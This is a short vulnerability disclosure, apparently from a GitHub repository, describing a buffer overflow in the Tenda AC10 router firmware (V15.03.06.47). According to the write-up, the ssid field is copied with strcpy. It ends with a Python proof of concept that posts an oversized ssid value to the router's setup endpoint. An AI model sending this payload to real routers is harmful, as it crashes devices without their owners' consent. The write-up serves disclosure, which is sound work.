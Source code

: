 # buffer overflow

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a buffer overflow in httpd/form_fast_setting_wifi_set

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:

![](1.png)

get value from ssid ,then call strcpy, cause buff overflow

## POC

```
url = "http://192.168.1.13/goform/fastsettingwifiset"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'ssid': payload})
```
